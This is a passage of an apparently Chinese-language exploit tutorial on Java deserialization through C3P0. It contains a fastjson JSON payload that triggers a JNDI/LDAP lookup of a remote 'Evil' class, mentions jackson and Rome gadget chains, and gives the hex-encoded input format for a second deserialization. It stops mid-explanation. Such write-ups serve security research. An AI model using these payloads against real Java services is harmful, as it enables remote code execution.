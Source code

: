```java
public class fastjson_JNDI {
    public static void main(String[] args) throws Exception {
        String payload = "{{\"@type\":\"java.lang.Class\",\"val\":\"com.mchange.v2.c3p0.JndiRefConnectionPoolDataSource\"},{\"@type\":\"com.mchange.v2.c3p0.JndiRefConnectionPoolDataSource\",\"jndiName\":\"ldap://127.0.0.1:1099/JDNI_RuntimeEvil\",\"loginTimeout\":2}}";
        JSON.parse(payload);
    }
}
```

autoType会把本文涉及的利用类加入黑名单，所以fastjson该绕过的要绕过





打readObject也不是不可以，有依赖包的话随便挑一个打getter/setter的方法

比如用jackson 2.13.3的POJONode.toString->getter

比如Rome的ToStringBean.toString->getter

不重复套娃了就



# C3P0不出网

## SerializableUtils反序列化字节码

需要有fastjson/jackson依赖

漏洞入口位于C3P0ImplUtils.parseUserridesAsString

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241016172934901.png)

paseUserridesAsString对传入的参数userOverridesAsString字符串处理如下：

1. 从`HASM_HEADER`长度+1开始，截取到userOverridesAsString的倒数第二个字符

HASM_HEADER为`HexAsciiSerializedMap`

2. 调用`ByteUtils.fromHexAscii`把截取的字符串转为二进制
3. 调用`SerializableUtils.fromByteArray`反序列化字节码

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241016174046772.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241016174053242.png)

向parseUserOverridesAsString传参`HexAsciiSerializedMap+任意字符+恶意十六进制字节码+任意字符`就能二次反序列化

WrapperConnectionPoolDataSource构造函数调用了parseUserOverridesAsString，但是这用不了，你总不能还没声明类就调用setter给userOverridesAsString赋值了吧

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241016175106091.png)

仔细看一下这个构造函数：
